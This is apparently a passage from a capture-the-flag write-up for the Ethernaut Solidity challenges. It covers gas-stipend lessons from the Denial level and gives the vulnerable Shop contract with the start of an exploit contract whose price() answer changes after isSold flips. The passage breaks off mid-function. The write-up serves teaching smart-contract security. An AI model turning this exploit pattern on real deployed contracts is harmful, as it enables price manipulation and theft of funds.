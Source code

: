 This level demonstrates that external calls to unknown contracts can still create denial of service attack vectors if a fixed amount of gas is not specified.

If you are using a low level `call` to continue executing in the event an external call reverts, ensure that you specify a fixed gas stipend. For example `call.gas(100000).value()`.

Typically one should follow the [checks-effects-interactions](https://docs.soliditylang.org/en/latest/security-considerations.html#use-the-checks-effects-interactions-pattern) pattern to avoid reentrancy attacks, there can be other circumstances (such as multiple external calls at the end of a function) where issues such as this can arise.

_Note_: An external `CALL` can use at most 63/64 of the gas currently available at the time of the `CALL`. Thus, depending on how much gas is required to complete a transaction, a transaction of sufficiently high gas (i.e. one such that 1/64 of the gas is capable of completing the remaining opcodes in the parent call) can be used to mitigate this particular attack.

### Level 21. Shop

**Goal**: `player` has to set price to less than it's current value.

Given contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

Solution:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

interface IShop {
    function buy() external;
    function price() external view returns (uint);
    function isSold() external view returns (bool);
}

contract Buyer {

    function price() external view returns (uint) {
        bool isSold = IShop(msg.sender).isSold();
        uint askedPrice = IShop(msg.sender).price();
        if (!isSold) return askedPrice;
        return 0;
    }

    function callBuy(address _shopAddr) public {
```